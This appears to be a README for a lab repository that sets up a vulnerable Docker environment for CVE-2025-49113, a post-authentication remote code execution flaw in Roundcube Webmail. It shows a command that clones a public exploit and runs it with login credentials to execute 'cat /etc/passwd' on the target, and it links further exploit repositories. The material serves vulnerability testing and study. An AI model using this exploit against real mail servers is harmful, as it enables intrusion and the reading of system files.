 # CVE-2025-49113
Roundcube Webmail before 1.5.10 and 1.6.x before 1.6.11 allows remote code execution by authenticated users because the _from parameter in a URL is not validated in program/actions/settings/upload.php, leading to PHP Object Deserialization.

## Metrics
MITRE: 9.9 (Critical)


## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```
## Detection and exploitation example
1. Run Environment
2. Run PoC:
```shell
git clone https://github.com/fearsoff-org/CVE-2025-49113/

php CVE-2025-49113.php http://172.90.240.2/ vulnforge vulnforge123 "cat /etc/passwd > /tmp/pwned"
```

## Exploits and PoCs
https://github.com/fearsoff-org/CVE-2025-49113  
https://github.com/hakaioffsec/CVE-2025-49113-exploit  

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2025-49113](https://nvd.nist.gov/vuln/detail/CVE-2025-49113)  
[FearsOff: Roundcube ≤ 1.6.10 Post-Auth RCE via PHP Object Deserialization [CVE-2025-49113]](https://fearsoff.org/research/roundcube)  
